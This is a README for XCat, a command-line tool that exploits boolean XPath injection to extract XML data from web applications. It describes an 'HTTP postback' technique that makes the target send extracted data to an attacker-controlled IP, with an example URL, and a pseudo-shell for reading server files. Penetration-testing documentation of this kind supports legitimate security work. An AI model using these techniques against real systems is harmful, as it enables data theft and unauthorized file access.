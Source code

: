 XCat
====

XCat is a command line program that aides in the exploitation of XPath injection vulnerabilities.
It boasts a wide range of features and can utilize the more advanced features of the XPath 2.0 specification (pattern matching, unicode normilization and even http requests) or gracefully degrade to using XPath 1.0 if they are not available.

XCat is built to exploit boolean XPath injections (Where only one bit of data can be extracted in one request) and it requires you to manually identifiy the exploit first, this does not do that for you.

Features
--------
* Exploits both GET and POST attacks
* Extracts all nodes, comments, attributes and data from the entire XML document
* One file, three dependencies ([Python 2.7+](http://www.python.org/download/releases/2.7.2/), [Futures](http://pypi.python.org/pypi/futures/2.1.2) (only if you are not using 3.x) and [cElementTree](http://effbot.org/downloads/#elementtree))
* Parallel requests (adjustable thread pool size)
* XPath 2.0 supported (with graceful degrading to 1.0)
* [Regex](http://www.w3.org/TR/xpath-functions/#func-matches) pattern matching to reduce character search space
* [Unicode normalization](http://www.w3.org/TR/xpath-functions/#func-normalize-unicode)
* Advanced data postback through HTTP (see below)
* Arbitrarily read XML files on the servers file system via the doc() function (see below)

Usage
-----
	usage: main.py [-h] [--method {GET,POST}] [--arg POST_ARGUMENT]
	               [--true TRUE_KEYWORD] [--false FALSE_KEYWORD]
	               [--max_search SEARCH_LIMIT] [--error ERROR_KEYWORD]
	               [--timeout TIMEOUT] [--threadpool POOLSIZE]
	               [--stepsize STEP_SIZE] [--xversion {1,2,auto}] [--lowercase]
	               [--regex] [--connectback] [--connectbackip CONNECTBACK_IP]
	               [--connectbackport CONNECTBACK_PORT]
	               [--notfoundstring NOTFOUNDCHAR] [--fileshell]
	               URL

### Simple usage with the example application
Check out the [readme](xcat/blob/master/src/example_application/README.md) to try out XCat with the provided example application.

HTTP Postback / doc function
----------------------------
Possibly the most advanced feature of XCat is its 'HTTP postback' feature. The XPath 2.0 schema defines a function called [doc](http://www.w3.org/TR/xpath-functions/#func-doc) which allows the programmer to load external documents from the file system or even from a remote network resource via HTTP/HTTPS. If the doc function is enabled and working then XCat will use it where possible to greatly speed up document retrieval times. It does this by running a small HTTP server within the program which listens on a specified port and by then calling the doc() function with the currently targetted node's data URI encoded and appended to a query. This means the XPath library will make a HTTP request to your IP (requires the port to be forwarded and/or a public IP) in the following format:

	http://YOUR_IP/?q=some%20data%20goes%here

This is far more efficient than iterating over the string character by character and can greatly reduce the retrieval times.

You can (ab)use this function to load XML file on the system, as long as you have read permissions over it, allowing you to retrieve lots of lovely XML configuration files - you can jump into a pseudo-shell within XCat by using the --fileshell flag and enter any file path.
